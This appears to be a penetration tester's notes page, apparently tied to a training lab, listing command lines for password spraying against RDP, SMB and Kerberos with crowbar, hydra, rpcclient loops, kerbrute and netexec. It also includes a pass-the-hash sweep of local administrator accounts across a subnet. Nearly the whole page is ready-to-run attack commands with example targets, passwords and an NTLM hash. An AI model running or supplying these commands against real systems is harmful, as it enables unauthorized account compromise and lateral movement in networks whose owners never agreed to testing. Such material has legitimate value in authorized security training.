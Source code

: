 -- -
Different ways (tools) to perform password spraying.
### Crowbar
```bash
crowbar -b <protocol> -s <ip/range> -U <userfile> -c '<passwd>'
crowbar -b rdp -s 192.168.220.142/32 -U users.txt -c 'password123'
```
### Hydra
```bash
hydra -L <userlist> -p '<passwd>' <ip> <protocol>
hydra -L usernames.txt -p 'password123' 192.168.2.143 rdp
```
### O365 
You can password spray directly to O365 if the organization uses it. 
![[O365#^10833c]]
### rpcclient
Loop through the usernames in a username list and try to authenticate via rpcclient, then filter out anything that doesn't have "Authority" in the response. This will filter invalid attempts and only show successful logins
```bash
# generic example
for u in $(cat <userlist>);do rpcclient -U "<passwd>" -c "getusername;quit" <target ip> | grep Authority;done

# specific example
for u in $(cat valid_users.txt);do rpcclient -U "$u%Welcome1" -c "getusername;quit" 172.16.5.5 | grep Authority; done
```

^c6d397

### Kerbrute
```bash
kerbrute passwordspray -d <domain> --dc <dc ip> <userlist> <password>
kerbrute passwordspray -d inlanefreight.local --dc 172.16.5.5 valid_users.txt  Welcome1
```

^f1c1f5

### netexec
```bash
# filters out invalid login attempts, not super necessary
sudo netexec smb <target ip> -u <userlist> -p <password> | grep +
sudo netexec smb 172.16.5.5 -u valid_users.txt -p Password123 | grep +

# validate successful login credentials with the DC
sudo netexec smb <dc ip> -u <username> -p <password>

# target local accounts, not domain accounts
sudo netexec smb --local-auth <subnet> -u <user> -H <hash> | grep +
sudo crackmapexec smb --local-auth 172.16.5.0/23 -u administrator -H 88ad09182de639ccc6579eb0849751cf | grep +
```